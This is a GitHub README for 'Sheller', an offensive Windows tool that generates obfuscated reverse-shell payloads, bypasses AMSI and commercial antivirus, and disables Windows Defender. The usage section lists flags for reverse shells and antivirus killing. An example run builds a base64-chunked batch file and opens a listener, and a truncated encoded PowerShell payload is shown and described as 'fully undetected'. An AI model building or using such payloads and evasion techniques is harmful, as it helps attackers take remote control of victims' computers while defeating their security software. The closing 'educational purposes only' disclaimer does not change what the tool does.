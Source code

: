# Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.



For use python3 and powershell (Windows) or pwsh (Linux) are required, the script supports Windows and Linux distribution.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding, chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
# Getting started
```
root@lukeproducts:~/Sheller# python3 sheller.py

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


usage: sheller2.0.py [-h] [-s SHELLOUTNAME] [-avkill ANTIVIRUSKILL] [-lh LOCALHOST] [-lp LOCALPORT] [-b64] [-ch] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -s SHELLOUTNAME, --shelloutname SHELLOUTNAME
                        Reverse Shell. Value: fileoutputname. Requires: [-lh] [-lp], optional: [-b64] [-ch] [-v]
  -avkill ANTIVIRUSKILL, --antiviruskill ANTIVIRUSKILL
                        script to deactivate AV of victim if executed with admin privileges. Optional flag: [-b64] [-ch]
  -lh LOCALHOST, --localhost LOCALHOST
                        host for payload ("lh" for automatically assign host to this systems address)
  -lp LOCALPORT, --localport LOCALPORT
                        port for payload (4 digit number recommended)
  -b64                  encodes payload to base64
  -ch                   chunks up base64 encoded string (chunking probability in CHUNK_PROBABILITY)
  -v, --varencode       changes all variables names to an random 10 hex digit encoded into VAR_ENCODING encoding type (default is md5)
  ```


# Example
```
root@lukeproducts:~/Sheller# python3 sheller.py -s xy.bat -lh lh -lp 4444 -b64 -ch -v

Copyright LukeProducts 2022, all rights reserved
 ┌──────────────────────────────────────┐       
 │                   ▼         ##       │       
 │ ┌─────────────────┘    ┌────##───┐   │       
 │ │AMSI Bypass Tool      │    ##   │   │       
 │ └──────────────────────┘    ##   └─► │       
 │                             ##       │       
 │ © Copyright by LukeProducts ##       │       
 └──────────────────────────────────────┘       


Host set to "LukeProuctsKali" (192.168.0.129)

[*] Successfully exported payload to "xy.bat" with encoding base64 and chunked up 87 times!
listening on [any] 4444 ...
```
### xy.bat: <a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Result</a>
```
powershell /w 1 /C "$a=[scriptblock]::create([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('ZgB1AG4AYwB0AGkAbwBuACAAYwBsAGUAYQBuAHUAcAAgAHsAaQBm'+'ACAAKAAkADMAYwBhADQAYgBhADUANgA2AGMAZgBlAGQANQBjADEAYwA1ADMAMQBmAGQAMgA1ADkAYgBjAGYAMAA5ADcAOAAuAEMAbwBuAG4AZQBjAHQAZQBkACAALQBlAHEAIAAkAHQAcgB1AGUAKQAgAHsAJAAzAGMAYQA0AGIAYQA1ADYANgBjAGYAZQBk'+'ADUAYwAx'+'...')));Invoke-Command -ScriptBlock $a"
```



[![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)](https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1)



[![Build Status](https://user-images.githubusercontent.com/73026669/110617122-9c75ad00-8195-11eb-9ba5-422356072776.png)](https://github.com/LukeProducts)


###
DISCLAIMER: THIS IS FOR EDUCATIONAL PURPOSES ONLY! 
NO LIABILITY FOR ILLEGAL USE IS ASSUMED!
###
© Copyright by LukeProducts

